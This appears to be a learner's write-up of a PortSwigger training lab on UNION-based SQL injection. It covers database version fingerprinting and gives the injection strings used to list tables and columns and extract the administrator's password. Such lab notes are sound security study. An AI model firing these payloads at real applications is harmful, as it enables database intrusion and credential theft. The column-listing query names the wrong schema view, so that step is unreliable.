


## platform portswigger
### target => Lab: SQL injection attack, listing the database contents on non-Oracle databases

**where is Vuln: product category field**

**Goal: gain admin password for login as admin**

#### analsis
##### find version which data base use

- Oracle	SELECT banner FROM v$version `No`
  -SELECT version FROM v$instance `No`
- Microsoft	SELECT @@version `No`
- PostgreSQL	SELECT version() `yes this is version`
- MySQL	SELECT @@version `No`

#### Exploitation
- `' UNION SELECT table_name,NULL FROM information_schema.tables --`
  - users_civlvv table

- `' UNION SELECT column_name,NULL FROM information_schema.tables WHERE table_name = 'users_civlvv'--`
 - username_rmloar -> find username column
 - password_vegkck -> find password column

- final query
- `' UNION SELECT username_rmloar,password_vegkck FROM  users_civlvv -- `
 - after the excute 
  - username -> administrator
  - password -> 9fzonfu6tr2thp0pytfm

**Note tables columns password is random but starting point is samne in this lab -> like user_random**

#### step:
1. acess the lab
2. check any product
3. analysis find information
4. login as admin with password you find in exploitation
5. now lab is solve 
